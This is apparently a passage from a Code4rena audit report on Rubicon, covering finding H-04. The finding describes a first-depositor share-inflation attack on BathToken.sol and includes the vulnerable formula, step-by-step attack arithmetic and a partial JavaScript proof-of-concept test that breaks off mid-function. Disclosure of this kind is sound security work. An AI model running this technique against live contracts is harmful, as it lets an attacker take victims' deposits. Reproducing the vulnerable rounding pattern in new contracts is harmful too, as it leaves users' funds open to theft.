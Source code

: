 * * *

[](#h-04-first-depositor-can-break-minting-of-shares)[\[H-04\] First depositor can break minting of shares](https://github.com/code-423n4/2022-05-rubicon-findings/issues/397)
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

_Submitted by MiloTruck, also found by cccz, oyc_109, VAD37, PP1004, SmartSek, minhquanym, unforgiven, berndartmueller, WatchPug, CertoraInc, and sorrynotsorry\_

The attack vector and impact is the same as [TOB-YEARN-003](https://github.com/yearn/yearn-security/blob/master/audits/20210719_ToB_yearn_vaultsv2/ToB_-_Yearn_Vault_v_2_Smart_Contracts_Audit_Report.pdf), where users may not receive shares in exchange for their deposits if the total asset amount has been manipulated through a large “donation”.

### [](#proof-of-concept-3)Proof of Concept

In `BathToken.sol:569-571`, the allocation of shares is calculated as follows:

    (totalSupply == 0) ? shares = assets : shares = (
        assets.mul(totalSupply)
    ).div(_pool);

An early attacker can exploit this by:

*   Attacker calls `openBathTokenSpawnAndSignal()` with `initialLiquidityNew = 1`, creating a new bath token with `totalSupply = 1`
*   Attacker transfers a large amount of underlying tokens to the bath token contract, such as `1000000`
*   Using `deposit()`, a victim deposits an amount less than `1000000`, such as `1000`:
    
    *   `assets = 1000`
    *   `(assets * totalSupply) / _pool = (1000 * 1) / 1000000 = 0.001`, which would round down to `0`
    *   Thus, the victim receives no shares in return for his deposit

To avoid minting 0 shares, subsequent depositors have to deposit equal to or more than the amount transferred by the attacker. Otherwise, their deposits accrue to the attacker who holds the only share.

    it("Victim receives 0 shares", async () => {
        // 1. Attacker deposits 1 testCoin first when creating the liquidity pool
        const initialLiquidityNew = 1;
        const initialLiquidityExistingBathToken = ethers.utils.parseUnits("100", decimals);
        
        // Approve DAI and testCoin for bathHouseInstance
        await testCoin.approve(bathHouseInstance.address, initialLiquidityNew, {
            from: attacker,
        });
        await DAIInstance.approve(
            bathHouseInstance.address,
            initialLiquidityExistingBathToken,
            { from: attacker }
        );
    
        // Call open creation function, attacker deposits only 1 testCoin
        const desiredPairedAsset = await DAIInstance.address;
        await bathHouseInstance.openBathTokenSpawnAndSignal(
            await testCoin.address,
            initialLiquidityNew,
            desiredPairedAsset,
            initialLiquidityExistingBathToken,
            { from: attacker }
        );
        